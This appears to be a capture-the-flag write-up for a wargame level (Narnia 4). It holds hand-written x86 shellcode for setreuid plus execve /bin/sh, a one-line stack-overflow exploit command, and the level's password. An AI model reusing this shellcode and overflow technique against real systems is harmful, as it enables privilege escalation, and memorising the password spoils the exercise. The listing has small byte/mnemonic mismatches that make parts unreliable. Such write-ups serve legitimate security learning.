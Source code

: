 In this exploit we have no `ASLR` and `NX` disable so I decided to create my own shellcode.
This shellcode perform 2 syscall:
* `setreuid` -> set real and effective uid to suid user(Narnia5 -> check in passwd -> 14005)
* `execve /bin/sh`



In order to have the string `/bin/sh` in process's address layout I opted to load in argv[2] the string `/bin/sh` several times (7).
I filled buffer variable with a series of NOP instructions and the shellcode at the end, then I added some junk bytes in order to fill the void between my bytes and RA.

After this I overwritten the RA with a generic address in order to jump among the NOPs.

To make the shellcode works it is necessary that spacing characters are not included in the shellcode.


This is my PIC:


```assembly
08048054 <_start>:
 8048054:	31 db                	xor    %ebx,%ebx
 8048056:	31 c9                	xor    %ecx,%ecx
 8048058:	31 c0                	xor    %eax,%eax
 804805a:	31 ff                	xor    %edi,%edi
 804805c:	66 bb b5 36          	mov    $0x36b5,%bx
 8048060:	66 b9 b5 36          	mov    $0x36b5,%cx
 8048064:	b0 46                	mov    $0x46,%al
 8048066:	cd 80                	int    $0x80
 8048068:	31 d2                	xor    %edx,%edx
 804806a:	31 db                	xor    %ebx,%ebx
 804806c:	31 c9                	xor    %ecx,%ecx
 804806e:	31 c0                	xor    %eax,%eax
 8048070:	b0 3b                	mov    $0x0b,%al
 8048072:	bb cc ff ff ff       	mov    $0xffffffcc,%ebx   # I change this value with address "/bin/sh" passed as argument, note that I pass several arguments with that string
 8048077:	cd 80                	int    $0x80
 
 ```


```bash
$ ./narnia4 $(python -c 'print "\x90"*217+"\x31\xdb\x31\xc9\x31\xc0\x31\xff\x66\xbb\xb5\x36\x66\xb9\xb5\x36\xb0\x46\xcd\x80\x31\xc9\x31\xd2\x31\xff\x31\xc0\xb0\x0b\xbb\xe7\xd7\xff\xff\xcd\x80"+"b"*18+"\x70\xd7\xff\xff"+" "+"/////bin/sh "*7')
```



##### PASS=faimahchiy

#
#
#

------------------------------------------------------------------------------------------------------------------------------------
